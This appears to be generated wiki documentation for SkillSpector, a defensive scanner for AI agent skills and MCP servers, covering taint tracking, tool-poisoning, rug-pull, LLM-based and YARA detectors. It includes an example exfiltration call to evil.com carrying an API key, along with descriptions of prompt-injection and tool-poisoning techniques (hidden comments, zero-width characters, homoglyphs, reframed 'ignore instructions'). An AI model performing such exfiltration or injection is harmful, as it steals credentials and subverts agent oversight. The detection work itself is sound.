| **AST7** | Dynamic `getattr()` | LOW | `getattr()` with variable attribute names, evading static analysis [src/skillspector/nodes/analyzers/behavioral_ast.py:142](). |
| **AST8** | Execution Chain | CRITICAL | Malicious wrapper pattern: `exec()` wrapping sources like `base64`, `requests`, or `subprocess` [src/skillspector/nodes/analyzers/behavioral_ast.py:143](). |
| **AST9** | Reflective Sink | HIGH | Reflective invocation via `getattr()` with a literal dangerous sink name [src/skillspector/nodes/analyzers/behavioral_ast.py:144](). |
| **AST10**| Insecure Deserialization | MEDIUM | Unsafe Python deserialization constructs [src/skillspector/nodes/analyzers/behavioral_ast.py:145](). |

### Implementation Details

The analyzer traverses the AST via `ast.walk(tree)` [src/skillspector/nodes/analyzers/behavioral_ast.py:187](). For every `ast.Call` node, it resolves function targets using `resolve_call_name` [src/skillspector/nodes/analyzers/behavioral_ast.py:191](), which maps dotted references and import aliases [src/skillspector/nodes/analyzers/common.py:150-161]().

* **Dangerous Execution Chains (AST8):** Inspects arguments passed to `exec`, `eval`, or `compile` for secondary untrusted sources or payload decoders (`base64`, network requests) [src/skillspector/nodes/analyzers/behavioral_ast.py:140-156]().
* **Reflective Sinks (AST9):** Detects patterns like `getattr(os, "system")("cmd")` where the second argument is a constant matching `_DANGEROUS_GETATTR_NAMES` [src/skillspector/nodes/analyzers/behavioral_ast.py:56-68]().
* **Resource Bounds:** Managed via `_BehavioralBudget` to enforce scan runtimes and finding limits across large artifact sets [src/skillspector/nodes/analyzers/behavioral_ast.py:186-209]().

Sources: [src/skillspector/nodes/analyzers/behavioral_ast.py:16-209](), [src/skillspector/nodes/analyzers/common.py:150-161]()

---

## Behavioral Taint Tracking (`behavioral_taint_tracking`)

The `behavioral_taint_tracking` analyzer performs data-flow analysis to detect when sensitive sources propagate to dangerous sinks, identifying potential credential theft and data exfiltration [src/skillspector/nodes/analyzers/behavioral_taint_tracking.py:16-21]().

### Data Flow Components

* **Sources (Data Origins):** Credentials (`os.environ`, `os.getenv`), file reads (`open`, `pathlib.Path.read_text`), network input (`requests.get`, `socket.socket.recv`), and user input (`input`, `sys.stdin.read`) [src/skillspector/nodes/analyzers/behavioral_taint_tracking.py:67-108]().
* **Sinks (Data Destinations):** Network output (`requests.post`, `socket.socket.send`), execution (`exec`, `eval`, `subprocess.run`), file writes (`open` with write modes, `shutil.copy`), and deserialization sinks (`pickle.loads`, `yaml.unsafe_load`) [src/skillspector/nodes/analyzers/behavioral_taint_tracking.py:114-180]().

### Taint Tracking Logic

1. **Variable Tainting:** Scans assignments (`ast.Assign`) to identify sources via `_find_source_in_expr` and records tainted variables in `tainted_vars` [src/skillspector/nodes/analyzers/behavioral_taint_tracking.py:270-292]().
2. **Propagation:** Tracks taint through reassignments, container structures, and f-strings [src/skillspector/nodes/analyzers/behavioral_taint_tracking.py:294-311]().
3. **Sink Validation:** Flags calls matching `_ALL_SINKS` if any argument references a tainted variable [src/skillspector/nodes/analyzers/behavioral_taint_tracking.py:316-334]().

### Diagram: Taint Tracking Data Flow

```mermaid
graph TD
    subgraph "Natural Language Space"
        A["Developer exfiltrates environment variable via HTTP POST"]
    end

    subgraph "Code Entity Space"
        B["os.environ.get('API_KEY')"] -- "classified as" --> C["_CREDENTIAL_SOURCES"]
        D["ast.Assign"] -- "tracks variable" --> E["_TaintedVar"]
        F["requests.post('http://evil.com', data=secret)"] -- "classified as" --> G["_NETWORK_OUTPUT_SINKS"]
        E -- "checked by" --> H["_find_tainted_names_in_args"]
        H -- "triggers rule" --> I["AnalyzerFinding(rule_id='TT3')"]
    end

    A -.-> B
    B --> D
    G --> H
```

Sources: [src/skillspector/nodes/analyzers/behavioral_taint_tracking.py:16-205]()

---

## Bundled Execution Surface Analyzer (`bundled_execution_surface`)

The `bundled_execution_surface` analyzer inspects bounded hook configurations and project settings (such as `hooks/hooks.json`, `.claude/settings.json`, and `.claude/settings.local.json`) to detect ambient command execution, unmodeled hook payloads, and over-permissive trust boundaries (rules BH1–BH3) [src/skillspector/nodes/analyzers/bundled_execution_surface.py:35-237]().

Sources: [src/skillspector/nodes/analyzers/bundled_execution_surface.py:35-237](), [tests/nodes/analyzers/test_bundled_execution_surface.py:1-150]()

---

## Deserialization Analysis Across Languages

Python deserialization is handled with AST/taint precision by `behavioral_ast` (rule AST10) and `behavioral_taint_tracking` (rule TT6) [src/skillspector/nodes/analyzers/behavioral_ast.py:145](), [src/skillspector/nodes/analyzers/behavioral_taint_tracking.py:157-180](). For non-Python bundled scripts (PHP, Ruby, JavaScript), language-gated regex signatures in `static_patterns_deserialization` provide broader coverage (rules DS1–DS4) [src/skillspector/nodes/analyzers/static_patterns_deserialization.py:16-102]().

Sources: [src/skillspector/nodes/analyzers/static_patterns_deserialization.py:16-146]()

---

## Shared AST Utilities and Caching

Both behavioral analyzers rely on shared parsing and caching infrastructure to maintain performance and accuracy across parallel execution branches.

* **Pre-warmed Caching:** `python_ast.py` provides `build_python_ast_cache` to parse eligible Python source files into shared `ParsedPythonFile` containers with import aliases [src/skillspector/python_ast.py:43-152]().
* **Import Aliasing & Type Mapping:** `common.py` resolves import bindings (`build_import_aliases`) and tracks variable type maps (`build_type_map`) to support typed call resolution (`resolve_call_name_typed`) [src/skillspector/nodes/analyzers/common.py:112-187]().

### Diagram: AST Processing and Analysis Pipeline

```mermaid
graph LR
    subgraph "Input"
        SRC["Python Source File Cache"]
    end

    subgraph "Processing: src/skillspector/python_ast.py"
        AST["parse_python_source()"]
        AL["build_import_aliases()"]
    end

    subgraph "Analysis: src/skillspector/nodes/analyzers/common.py"
        TM["build_type_map()"]
        RCN["resolve_call_name_typed()"]
    end

    subgraph "Analyzers"
        BA["behavioral_ast"]
        BTT["behavioral_taint_tracking"]
    end

    SRC --> AST
    AST --> AL
    AL --> TM
    TM --> RCN
    RCN --> BA
    RCN --> BTT
```

Sources: [src/skillspector/python_ast.py:43-152](), [src/skillspector/nodes/analyzers/common.py:112-187]()

---

# Page: MCP Security Analyzers

# MCP Security Analyzers

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [docs/B.3.1-mcp-least-privilege.md](docs/B.3.1-mcp-least-privilege.md)
- [src/skillspector/mcp_registry.py](src/skillspector/mcp_registry.py)
- [src/skillspector/models.py](src/skillspector/models.py)
- [src/skillspector/nodes/analyzers/mcp_least_privilege.py](src/skillspector/nodes/analyzers/mcp_least_privilege.py)
- [src/skillspector/nodes/analyzers/mcp_rug_pull.py](src/skillspector/nodes/analyzers/mcp_rug_pull.py)
- [src/skillspector/nodes/analyzers/mcp_tool_poisoning.py](src/skillspector/nodes/analyzers/mcp_tool_poisoning.py)
- [tests/fixtures/mcp_registry/malformed.json](tests/fixtures/mcp_registry/malformed.json)
- [tests/fixtures/mcp_registry/mcp_registry.json](tests/fixtures/mcp_registry/mcp_registry.json)
- [tests/nodes/analyzers/test_mcp_rug_pull.py](tests/nodes/analyzers/test_mcp_rug_pull.py)
- [tests/test_mcp_least_privilege.py](tests/test_mcp_least_privilege.py)
- [tests/test_mcp_rug_pull.py](tests/test_mcp_rug_pull.py)
- [tests/test_mcp_tool_poisoning.py](tests/test_mcp_tool_poisoning.py)
- [tests/unit/test_mcp_registry.py](tests/unit/test_mcp_registry.py)

</details>


The Model Context Protocol (MCP) defines how AI agents interact with tools and skills. Because MCP manifests (`SKILL.md`) and server registries are consumed directly by LLMs and agent orchestration systems to determine tool selection, permissions, and execution parameters, they represent a high-priority attack surface. SkillSpector implements specialized analyzer nodes and posture scanners to detect MCP-specific vulnerabilities: `mcp_least_privilege`, `mcp_tool_poisoning`, `mcp_rug_pull`, and MCP registry posture checks.

---

## 1. MCP Least-Privilege Analysis (`mcp_least_privilege`)

The `mcp_least_privilege` analyzer implements rules **LP1 through LP4** [docs/B.3.1-mcp-least-privilege.md:1-4](). It enforces the principle of least privilege by cross-referencing the permissions declared in the `SKILL.md` manifest against the actual capabilities detected in the skill's source code [docs/B.3.1-mcp-least-privilege.md:10-22]().

### Implementation and Data Flow
The analyzer is implemented as a pure static analysis node that operates on the `SkillspectorState` [src/skillspector/nodes/analyzers/mcp_least_privilege.py:35-39](). It requires the `manifest`, `file_cache`, and `component_metadata` to function [docs/B.3.1-mcp-least-privilege.md:49-56]().

**Capability Detection Logic:**
1.  **Code Scanning:** The node iterates through executable files identified in `component_metadata` [src/skillspector/nodes/analyzers/mcp_least_privilege.py:115-118]().
2.  **Pattern Matching:** It uses regex patterns defined in `_CAPABILITY_PATTERNS` to identify sensitive operations like `shell` access, `network` requests, file read/write, environment access, and MCP client sessions [src/skillspector/nodes/analyzers/mcp_least_privilege.py:63-114]().
3.  **Permission Mapping:** Declared strings in the manifest's `permissions` field are normalized and mapped to capability categories using the `_PERM_TO_CAPABILITY` lookup table [src/skillspector/nodes/analyzers/mcp_least_privilege.py:121-148]().

### Detection Rules (LP1-LP4)

| Rule ID | Name | Description | Severity |
| :--- | :--- | :--- | :--- |
| **LP1** | Underdeclared Capability | Code uses a capability (e.g., `network`) not listed in the manifest [docs/B.3.1-mcp-least-privilege.md:104-118]() | HIGH |
| **LP2** | Wildcard Permission | Manifest uses `*`, `all`, `full`, or `any`, bypassing security boundaries [src/skillspector/nodes/analyzers/mcp_least_privilege.py:59-60]() | MEDIUM |
| **LP3** | Missing Declaration | No `permissions` field exists, but the code performs sensitive operations [docs/B.3.1-mcp-least-privilege.md:155-168]() | MEDIUM |
| **LP4** | Overdeclared Permission | A permission is requested but no corresponding code is found (scope creep) [docs/B.3.1-mcp-least-privilege.md:183-195]() | LOW |

### Logic Diagram: Permission Cross-Referencing

"MCP Least-Privilege Data Flow"
```mermaid
graph TD
    subgraph "InputState"
        M["manifest['permissions']"]
        FC["file_cache"]
        CM["component_metadata"]
    end

    subgraph "mcp_least_privilege.py"
        MAP["_map_permissions_to_categories"]
        DET["_detect_capabilities"]
        RE["_CAPABILITY_PATTERNS"]
        
        M --> MAP
        FC --> DET
        CM --> DET
        RE --> DET
    end

    subgraph "ComparisonLogic"
        LP1["DetectedAndNotDeclared"]
        LP4["DeclaredAndNotDetected"]
        
        MAP -- "DeclaredSet" --> LP1
        MAP -- "DeclaredSet" --> LP4
        DET -- "DetectedSet" --> LP1
        DET -- "DetectedSet" --> LP4
    end

    LP1 --> F1["FindingLP1"]
    LP4 --> F4["FindingLP4"]
```
Sources: [src/skillspector/nodes/analyzers/mcp_least_privilege.py:43-148](), [docs/B.3.1-mcp-least-privilege.md:28-47]()

---

## 2. MCP Tool-Poisoning Detection (`mcp_tool_poisoning`)

The `mcp_tool_poisoning` analyzer (rules **TP1 through TP4**) targets "Tool Poisoning" (MITRE ATLAS AML.T0080), where an attacker manipulates tool metadata to deceive AI agents or users [src/skillspector/nodes/analyzers/mcp_tool_poisoning.py:16-17]().

### Metadata Extraction
The analyzer normalizes the manifest into a list of tuples using `_extract_metadata_texts`. This extracts text from the skill `name`, `description`, `triggers`, and `parameters` [src/skillspector/nodes/analyzers/mcp_tool_poisoning.py:168-202]().

### Implementation Details

#### TP1: Hidden Instructions
Detects non-visible content that might contain prompt injection or malicious payloads [src/skillspector/nodes/analyzers/mcp_tool_poisoning.py:16-17]().
- **HTML/Markdown Comments:** Identifies commented out sections within tool descriptions.
- **Steganography:** Detects zero-width characters (`ZERO_WIDTH_CHARS`) embedded within identifiers.
- **Encoded Payloads:** Identifies Base64 blobs and Data URIs designed to bypass textual filters.

#### TP2: Unicode Deception
Detects homoglyph attacks where characters from different scripts (Cyrillic, Greek) are used to shadow legitimate tools [src/skillspector/nodes/analyzers/mcp_tool_poisoning.py:133-161]().
- **Confusables Map:** The `_CONFUSABLES` dictionary maps characters like Cyrillic `а` (U+0430) to Latin `a` [src/skillspector/nodes/analyzers/mcp_tool_poisoning.py:136-161]().
- **RTL Overrides:** Checks for Right-to-Left override characters that manipulate visual display order.

#### TP3: Parameter Injection
Detects attempts to steer the agent via parameter descriptions, such as instructions like "always set this to true" [src/skillspector/nodes/analyzers/mcp_tool_poisoning.py:16-17](). It also flags excessively long parameter descriptions via `TP3_MAX_PARAM_DESC_LENGTH` [src/skillspector/nodes/analyzers/mcp_tool_poisoning.py:72]().

#### TP4: Description-Behavior Mismatch
An LLM-powered check extending `LLMAnalyzerBase` that compares the tool's natural language `description` against its actual code implementation [src/skillspector/nodes/analyzers/mcp_tool_poisoning.py:41-47](). This runs when `use_llm` is enabled [src/skillspector/nodes/analyzers/mcp_tool_poisoning.py:56-62]().

### Logic Diagram: Metadata Analysis

"MCP Tool-Poisoning Analysis Pipeline"
```mermaid
graph LR
    subgraph "MetadataExtraction"
        MD["SKILL.mdManifest"]
        EXT["_extract_metadata_texts"]
        MD --> EXT
    end

    subgraph "StaticAnalysisFilters"
        TP1["_check_tp1_hidden"]
        TP2["_check_tp2_unicode"]
        TP3["_check_tp3_injection"]
        
        EXT -- "TextTuples" --> TP1
        EXT -- "TextTuples" --> TP2
        EXT -- "TextTuples" --> TP3
    end

    subgraph "SemanticAnalysis"
        TP4["McpToolPoisoningAnalyzer"]
        LLM["ainvoke"]
        
        EXT -- "Description" --> TP4
        TP4 <--> LLM
    end

    TP1 --> F["FindingsList"]
    TP2 --> F
    TP3 --> F
    TP4 --> F
```
Sources: [src/skillspector/nodes/analyzers/mcp_tool_poisoning.py:41-62](), [src/skillspector/nodes/analyzers/mcp_tool_poisoning.py:133-202]()

---

## 3. MCP Rug-Pull Detection (`mcp_rug_pull`)

The `mcp_rug_pull` analyzer detects supply-chain risks such as version-unpinned references and significant manifest drift between versions [src/skillspector/nodes/analyzers/mcp_rug_pull.py:16-21]().

### RP1: Unpinned References
The analyzer scans the `file_cache` for package manager commands (`npx`, `uvx`, `pip install`) and `docker` commands that lack explicit version pins [src/skillspector/nodes/analyzers/mcp_rug_pull.py:123-141](). 
- **Detection Logic:** It identifies command strings and verifies if a version suffix (e.g., `@1.2.3`, `==1.2.3`, `@sha256:`) is present using `_VERSION_PIN_RE` [src/skillspector/nodes/analyzers/mcp_rug_pull.py:141]().

### RP2 & RP3: Manifest Drift
When a `previous_manifest` is provided in the state, the analyzer compares the current manifest against it to detect "rug pull" behavior [src/skillspector/nodes/analyzers/mcp_rug_pull.py:16-21]().

| Rule ID | Name | Description | Severity |
| :--- | :--- | :--- | :--- |
| **RP1** | Unpinned Server | MCP server or tool referenced without a pinned version (`npx`, `uvx`, `pip`) [src/skillspector/nodes/analyzers/mcp_rug_pull.py:123-141]() | MEDIUM |
| **RP1 (Drift)** | Permission Expansion | New permissions added compared to previous version [tests/nodes/analyzers/test_mcp_rug_pull.py:75-99]() | HIGH |
| **RP2 (Drift)** | Trigger Change | Trigger phrases added or removed, changing the activation surface [tests/nodes/analyzers/test_mcp_rug_pull.py:113-148]() | MEDIUM |
| **RP3 (Drift)** | Parameter Change | Parameters added, removed, or types modified [tests/nodes/analyzers/test_mcp_rug_pull.py:149-192]() | MEDIUM |

### Logic Diagram: Rug-Pull Comparison Logic

"MCP Rug-Pull Detection Flow"
```mermaid
graph TD
    subgraph "InputState"
        M["manifest"]
        PM["previous_manifest"]
        FC["file_cache"]
    end

    subgraph "StaticAnalysisRP1"
        NPX["_RP1_NPX_CMD"]
        UVX["_RP1_UVX_CMD"]
        PIN["_VERSION_PIN_RE"]
        
        FC --> NPX
        FC --> UVX
        NPX --> PIN
        UVX --> PIN
    end

    subgraph "DriftAnalysis"
        NORM["_normalize_string_list"]
        COMP["ComparisonLogic"]
        
        M --> NORM
        PM --> NORM
        NORM --> COMP
    end

    PIN -- "MissingVersion" --> F1["FindingRP1Unpinned"]
    COMP -- "DiffDetected" --> F2["FindingDrift"]
```
Sources: [src/skillspector/nodes/analyzers/mcp_rug_pull.py:123-196](), [tests/nodes/analyzers/test_mcp_rug_pull.py:75-192]()

---

## 4. MCP Registry Posture Scanning (`src/skillspector/mcp_registry.py`)

In addition to individual skill analysis, SkillSpector includes registry posture scanning capabilities (`src/skillspector/mcp_registry.py`) to audit centralized or local MCP server registry catalogs (e.g., `registry.modelcontextprotocol.io`) [src/skillspector/mcp_registry.py:4-19]().

### Key Data Structures and Normalization
- **`RegistryServerSnapshot`**: Captures normalized server metadata including source, name, title, description, version, repository reference, packages, remotes, and official registry status metadata (`_meta`) [src/skillspector/mcp_registry.py:82-98]().
- **`record_hash`**: Generates a deterministic SHA-256 hash of canonicalized JSON registry records independently of object key ordering [src/skillspector/mcp_registry.py:110-112]().
- **Version Pinning Checks**: The helper `_is_specific_package_version` flags mutable version tags (`latest`, `next`, `beta`, range operators `^`, `~`, or wildcard segments like `1.x`) to ensure server dependencies are strictly pinned [src/skillspector/mcp_registry.py:127-139]().
- **File SHA-256 Validation**: Validates package cryptographic integrity hashes against `FILE_SHA256_RE` [src/skillspector/mcp_registry.py:141-142]().

### Registry Posture Rules
The registry scanner evaluates registry payloads for structural and security posture anomalies:
1. **Unpinned Package Versions**: Flags packages using mutable release tags or ranges instead of exact immutable versions.
2. **Missing Integrity Hashes**: Flags packages lacking explicit `fileSha256` declarations.
3. **Deprecated or Inactive Status**: Flags servers marked as deprecated or inactive in official metadata (`_meta`).
4. **Invalid Schema/Payloads**: Raises validation errors on malformed server entries or missing mandatory identifiers [src/skillspector/mcp_registry.py:171-179]().

Sources: [src/skillspector/mcp_registry.py:4-198](), [tests/fixtures/mcp_registry/mcp_registry.json:1-52]()

---

# Page: Semantic (LLM-Powered) Analyzers

# Semantic (LLM-Powered) Analyzers

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [src/skillspector/llm_analyzer_base.py](src/skillspector/llm_analyzer_base.py)
- [src/skillspector/nodes/analyzers/semantic_developer_intent.py](src/skillspector/nodes/analyzers/semantic_developer_intent.py)
- [src/skillspector/nodes/analyzers/semantic_quality_policy.py](src/skillspector/nodes/analyzers/semantic_quality_policy.py)
- [src/skillspector/nodes/analyzers/semantic_security_discovery.py](src/skillspector/nodes/analyzers/semantic_security_discovery.py)
- [src/skillspector/nodes/meta_analyzer.py](src/skillspector/nodes/meta_analyzer.py)
- [tests/nodes/analyzers/test_semantic_developer_intent.py](tests/nodes/analyzers/test_semantic_developer_intent.py)
- [tests/nodes/analyzers/test_semantic_security_discovery.py](tests/nodes/analyzers/test_semantic_security_discovery.py)
- [tests/nodes/test_llm_analyzer_base.py](tests/nodes/test_llm_analyzer_base.py)
- [tests/nodes/test_meta_analyzer.py](tests/nodes/test_meta_analyzer.py)
- [tests/nodes/test_meta_analyzer_fallback.py](tests/nodes/test_meta_analyzer_fallback.py)
- [tests/nodes/test_semantic_quality_policy.py](tests/nodes/test_semantic_quality_policy.py)

</details>


Semantic analyzers in SkillSpector leverage Large Language Models (LLMs) to detect risks that are invisible to static regex patterns or AST-based behavioral analysis. These analyzers focus on **intent**, **context**, and **natural language semantics**, filling the "residual gap" where harmful behavior is obfuscated or described in plain language rather than literal code signatures `[src/skillspector/nodes/analyzers/semantic_security_discovery.py:43-45]`.

## LLMAnalyzerBase Implementation

All semantic analyzers extend the functionality provided by `LLMAnalyzerBase` `[src/skillspector/llm_analyzer_base.py:18-26]()`. This base class provides a standardized run-loop that handles the complexities of LLM integration, ensuring consistency across different discovery nodes.

### Key Capabilities
*   **Parallel Execution**: Uses `asyncio.gather` via `arun_batches()` to fire multiple LLM calls concurrently, utilizing a semaphore for rate limiting `[src/skillspector/llm_analyzer_base.py:154-165]()`.
*   **Token Budgeting & Chunking**: Automatically splits oversized files into chunks with line-overlap (default 50 lines) via `chunk_file_by_lines()` to ensure no context is lost during analysis `[src/skillspector/llm_analyzer_base.py:16-26]()`.
*   **Line-Numbered Prompts**: Prefixes every line of code with `L<number>:` (e.g., `L01:`, `L02:`) via `number_lines()` so the LLM can report precise `start_line` and `end_line` values `[src/skillspector/llm_analyzer_base.py:53-56]()`.
*   **Structured Output**: Uses LangChain's `with_structured_output` to enforce a Pydantic schema (`LLMAnalysisResult`), ensuring findings are machine-readable `[src/skillspector/llm_analyzer_base.py:22-26]()`.

### Data Flow: From Code to Finding
The following diagram illustrates how a code entity (a file in the `file_cache`) is transformed into a structured `Finding` through the semantic pipeline.

**Semantic Analysis Data Flow**
```mermaid
graph TD
    subgraph "Code Entity Space"
        A["SkillspectorState.file_cache"] -->|"get_batches()"| B["Batch Object"]
    end

    subgraph "Natural Language Space (LLM)"
        B -->|"_build_prompt()"| C["Line-Numbered Prompt"]
        C -->|"ainvoke()"| D["LLM Inference"]
        D -->|"LLMAnalysisResult"| E["LLMFinding (Pydantic)"]
    end

    subgraph "Code Entity Space"
        E -->|"to_finding(file_path)"| F["Finding Object"]
        F -->|"AnalyzerNodeResponse"| G["SkillspectorState.findings"]
    end

    style C stroke-dasharray: 5 5
    style D stroke-dasharray: 5 5
```
Sources: `[src/skillspector/llm_analyzer_base.py:16-26]()`, `[src/skillspector/llm_analyzer_base.py:53-56]()`.

---

## Semantic Security Discovery (SSD)
The `semantic_security_discovery` node focuses on intent and attack-phrasing risks that evade keyword-based detection `[src/skillspector/nodes/analyzers/semantic_security_discovery.py:16-17]()`.

| Rule ID | Name | Description |
| :--- | :--- | :--- |
| **SSD-1** | Semantic Prompt Injection | Polite reframings of "ignore instructions" or role-play setups to bypass safety `[src/skillspector/nodes/analyzers/semantic_security_discovery.py:73-77]()`. |
| **SSD-2** | Novel Attack Phrasing | Reformulations of jailbreaks using creative synonyms or indirect descriptions `[src/skillspector/nodes/analyzers/semantic_security_discovery.py:79-82]()`. |
| **SSD-3** | NL Exfiltration | Instructions to collect/leak data using plain language (e.g., "remember everything and echo it") `[src/skillspector/nodes/analyzers/semantic_security_discovery.py:84-89]()`. |
| **SSD-4** | Narrative Deception | Multi-step sequences where individual steps seem harmless but lead to a harmful goal `[src/skillspector/nodes/analyzers/semantic_security_discovery.py:91-95]()`. |

Sources: `[src/skillspector/nodes/analyzers/semantic_security_discovery.py:16-48]()`, `[tests/nodes/analyzers/test_semantic_security_discovery.py:158-171]()`.

---

## Semantic Developer Intent (SDI)
The `semantic_developer_intent` node detects mismatches between a skill's stated purpose (in its manifest or docstrings) and its actual implementation `[src/skillspector/nodes/analyzers/semantic_developer_intent.py:16-21]()`.

### Implementation Detail: Manifest Integration
Unlike other analyzers, SDI uses `_format_manifest(state.get("manifest"))` to inject the skill's name, description, and permissions into the LLM prompt, providing the "Intent" baseline `[src/skillspector/nodes/analyzers/semantic_developer_intent.py:164-179]()`.

**Intent Mismatch Detection Logic**
```mermaid
graph LR
    subgraph "Manifest (Intent Space)"
        M1["manifest['name']"]
        M2["manifest['description']"]
        M3["manifest['permissions']"]
    end

    subgraph "Source Code (Entity Space)"
        C1["ast.Call (Function Calls)"]
        C2["Docstrings"]
        C3["import statements"]
    end

    M1 & M2 & M3 -->|"_format_manifest()"| LLM["LLMAnalyzerBase"]
    C1 & C2 & C3 -->|"file_cache contents"| LLM
    
    LLM -->|"SDI-1"| SDI1["Description-Behavior Mismatch"]
    LLM -->|"SDI-2"| SDI2["Context-Inappropriate Capability"]
    LLM -->|"SDI-3"| SDI3["Scope Creep"]
    LLM -->|"SDI-4"| SDI4["Intent-Code Divergence"]
```
Sources: `[src/skillspector/nodes/analyzers/semantic_developer_intent.py:16-45]()`, `[tests/nodes/analyzers/test_semantic_developer_intent.py:136-167]()`.

---

## Semantic Quality Policy (SQP)
The `semantic_quality_policy` node evaluates skills against a safety and quality rubric. It is uniquely configured to apply specific rules only to relevant file types `[src/skillspector/nodes/analyzers/semantic_quality_policy.py:16-21]()`.

*   **SQP-1: Vague Triggers**: Applies to **Markdown and Manifest** files only. Flags broad trigger phrases like "help me" that cause unintended activations `[src/skillspector/nodes/analyzers/semantic_quality_policy.py:80-80]()`.
*   **SQP-2: Missing User Warnings**: Applies to **Code and Markdown**. Flags safety-critical operations (file writes, network calls) that lack user disclosure or confirmation prompts `[src/skillspector/nodes/analyzers/semantic_quality_policy.py:81-131]()`.
*   **SQP-3: NL Policy Violations**: Applies to **All Files**. Detects organizational policy breaches, such as forcing a specific locale without user opt-in `[src/skillspector/nodes/analyzers/semantic_quality_policy.py:82-148]()`.

Sources: `[src/skillspector/nodes/analyzers/semantic_quality_policy.py:16-46]()`, `[tests/nodes/test_semantic_quality_policy.py:141-167]()`.

---

## Precision and Reliability
To minimize noise in large scans, these analyzers implement a "Precision-over-Recall" strategy:
1.  **Confidence Thresholding**: `LLMFinding` objects include a `confidence` score (0.0 to 1.0) which is instructed to be at least 0.6 for reporting `[src/skillspector/nodes/analyzers/semantic_security_discovery.py:96-97]()`.
2.  **Output Guidelines**: The prompt instructs the LLM to prefer empty findings over false positives, acknowledging that most files are clean `[src/skillspector/nodes/analyzers/semantic_security_discovery.py:96-103]()`.
3.  **Graceful Degradation**: If an LLM returns malformed JSON or fails, the `LLMAnalyzerBase` catches the exception and isolates the failure to the affected batch rather than crashing the LangGraph pipeline `[src/skillspector/llm_analyzer_base.py:108-115]()`.

Sources: `[src/skillspector/llm_analyzer_base.py:108-115]()`, `[src/skillspector/nodes/analyzers/semantic_security_discovery.py:96-103]()`.

---

# Page: YARA-Based Malware Detection

# YARA-Based Malware Detection

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [src/skillspector/nodes/analyzers/static_yara.py](src/skillspector/nodes/analyzers/static_yara.py)
- [src/skillspector/yara_rules/agent_skills.yar](src/skillspector/yara_rules/agent_skills.yar)
- [src/skillspector/yara_rules/malware.yar.b64](src/skillspector/yara_rules/malware.yar.b64)
- [tests/nodes/analyzers/test_static_yara.py](tests/nodes/analyzers/test_static_yara.py)

</details>


The `static_yara` analyzer is a static analysis node in the SkillSpector pipeline designed to detect known malicious patterns, offensive security tools, webshells, cryptominers, and agent skill abuse within skill artifacts. It leverages the `yara` library to scan files against curated built-in rules and optional user-supplied rule directories [src/skillspector/nodes/analyzers/static_yara.py:16-21]().

### Implementation Overview

The `static_yara` node compiles YARA rules into an in-memory matching engine (`yara.Rules`), implementing a module-level cache (`_compiled_rules`, `_rules_hash`) to avoid redundant compilation across scan cycles [src/skillspector/nodes/analyzers/static_yara.py:173-175]().

#### Key Functions and Classes
- **`static_yara.node`**: Entry point registered in `ANALYZER_NODES`, retrieving the file cache from `SkillspectorState` and orchestrating execution [src/skillspector/nodes/analyzers/static_yara.py:67-68]() [src/skillspector/nodes/analyzers/static_yara.py:204-236]().
- **`_collect_rule_files`**: Discovers YARA files from bundled directories and `--yara-rules-dir` with bounded, deterministic no-follow traversal [src/skillspector/nodes/analyzers/static_yara.py:178-196]().
- **`_YaraRuleLoadBudget` & `_enforce_rule_load_deadline`**: Manages active processing budgets and workflow wall-clock deadlines during rule discovery, materialization, and compilation [src/skillspector/nodes/analyzers/static_yara.py:106-171]().
- **`_CATEGORY_MAP`**: Maps rule categories (`malware`, `webshell`, `cryptominer`, `hack_tool`, `exploit`) to default rule IDs (`YR1`-`YR4`) and severities [src/skillspector/nodes/analyzers/static_yara.py:75-81]().

#### Data Flow and Rule Loading

**YARA Rule Loading and Compilation Flow**
```mermaid
graph TD
    subgraph "Rule_Sources"
        B_DIR["_BUILTIN_RULES_DIR"]
        U_DIR["extra_dir (--yara-rules-dir)"]
    end

    subgraph "Code_Entity_Space"
        COLLECT["_collect_rule_files()"]
        BUDGET["_enforce_rule_load_deadline()"]
        COMP["_compile_rules()"]
        CACHE["_compiled_rules (Cache)"]
        MATCH["_compiled_rules.match()"]
    end

    B_DIR --> COLLECT
    U_DIR --> COLLECT
    COLLECT --> BUDGET
    BUDGET --> COMP
    COMP --> CACHE
    CACHE --> MATCH
    
    FILE_CACHE["SkillspectorState.file_cache"] --> MATCH
    MATCH --> FINDING["AnalyzerFinding"]
```
Sources: [src/skillspector/nodes/analyzers/static_yara.py:70-196](), [src/skillspector/nodes/analyzers/static_yara.py:204-236]()

### Bundled YARA Rules

SkillSpector ships with curated rule categories located in `src/skillspector/yara_rules/`. Some rule files are Base64 encoded (e.g., `.yar.b64`) to prevent false positives from local antivirus software scanning the package distribution.

| Rule File | Category | Description | Severity |
| :--- | :--- | :--- | :--- |
| `malware.yar.b64` | `malware` | Reverse shells, backdoors, keyloggers, ransomware, and C2 framework indicators [src/skillspector/yara_rules/malware.yar.b64:1-89](). | CRITICAL / HIGH |
| `cryptominers.yar` | `cryptominer` | Stratum protocol usage, mining pool URLs, and mining software references. | HIGH |
| `hacktools.yar` | `hack_tool` | Offensive security and privilege escalation scripts. | HIGH / MEDIUM |
| `webshells.yar` | `webshell` | Generic and obfuscated webshells for PHP, Python, JSP, and ASPX. | CRITICAL / HIGH |
| `agent_skills.yar` | `malware` / `hack_tool` | **Agent-specific**: Credential exfiltration via webhooks, remote bootstrap execution, prompt injection, and destructive autonomous actions [src/skillspector/yara_rules/agent_skills.yar:1-141](). | CRITICAL / HIGH |

Sources: [src/skillspector/nodes/analyzers/static_yara.py:16-21](), [src/skillspector/yara_rules/agent_skills.yar:1-141](), [src/skillspector/yara_rules/malware.yar.b64:1-89]()

### Metadata Mapping

YARA rules specify metadata (category, severity, confidence, description) that the analyzer maps to SkillSpector's data models. Unmapped categories fall back to `_CATEGORY_MAP`.

**Entity Mapping: YARA Meta to SkillSpector Findings**
```mermaid
classDiagram
    class YARA_Match_Meta {
        +category: string
        +severity: string
        +confidence: float
        +description: string
    }
    class _CATEGORY_MAP {
        +malware: (YR1, CRITICAL)
        +webshell: (YR2, CRITICAL)
        +cryptominer: (YR3, HIGH)
        +hack_tool: (YR4, HIGH)
        +exploit: (YR4, HIGH)
    }
    class AnalyzerFinding {
        +rule_id: string
        +severity: Severity
        +confidence: float
        +message: string
    }

    YARA_Match_Meta --> _CATEGORY_MAP : "lookup category"
    _CATEGORY_MAP --> AnalyzerFinding : "assign rule_id & default severity"
    YARA_Match_Meta --> AnalyzerFinding : "override severity/confidence"
```
